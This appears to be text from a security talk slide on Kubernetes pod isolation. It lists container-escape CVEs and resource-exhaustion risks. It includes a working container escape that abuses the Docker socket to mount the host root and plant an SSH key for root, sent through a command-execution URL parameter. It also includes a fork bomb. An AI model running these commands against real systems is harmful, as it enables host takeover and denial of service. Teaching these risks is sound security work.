

Pod Isolation Challenges
Container Escape
CVE-2018-14634 Integer overflow vulnerability
CVE-2016-5195 Dirty COW vulnerability
CVE-2019-5736 Docker runc vulnerability
CVE-2019-14271 Docker CP vulnerability
docker.vh.neargle.com:8888/?command_exec=python3 -c "import docker;client = docker.DockerClient(base_url='unix:///var/run/docker.sock');data = client.containers.run('alpine:latest', r'''sh -c \"echo 'ssh-rsa xxxxx root@620e839e9b02' >> /tmp/root/root/.ssh/authorized_keys\" ''', remove=True, volumes={'/': {'bind': '/tmp/root', 'mode': 'rw'}})"
Noisy neighbor

Impact performance on CPU, Memory, Bandwidth, Buffer IO,  PIDs, File descriptors
# kubectl run --rm -it bb --image=busybox sh
/ #  f(){ f|f& };f                   # WARNING: Don't try this!